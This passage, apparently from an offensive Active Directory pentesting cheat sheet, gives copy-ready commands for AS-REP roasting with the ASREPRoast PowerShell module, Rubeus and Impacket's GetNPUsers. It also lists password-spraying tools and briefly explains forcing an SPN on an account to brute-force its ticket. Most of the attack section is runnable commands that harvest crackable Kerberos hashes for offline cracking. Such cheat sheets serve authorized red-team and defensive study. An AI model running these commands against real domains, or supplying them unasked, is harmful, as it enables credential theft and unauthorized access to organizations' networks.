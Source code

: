 ⧉ Copied!

- And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.
    
    ```powershell
    #Get a spesific Accounts hash:
    Get-ASREPHash -UserName <UserName> -Verbose
    
    #Get any ASREPRoastable Users hashes:
    Invoke-ASREPRoast -Verbose
    ```
    
    ⧉ Copied!
    
- Using Rubeus:
    
    ```powershell
    #Trying the attack for all domain users
    Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
    
    #ASREPRoast spesific user
    Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
    
    #ASREPRoast users of a spesific OU (Organization Unit)
    Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
    ```
    
    ⧉ Copied!
    
- Using Impacket:
    
    ```powershell
    #Trying the attack for the specified users on the file
    python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
    ```
    
    ⧉ Copied!
    

### Password Spray Attack

If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse
on other domain accounts.

**Tools:**

- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
- [Spray](https://github.com/Greenwolf/Spray)

### Force Set SPN

*WUT IS DIS ?:
If we have enough permissions -> GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its blob and bruteforce it.*
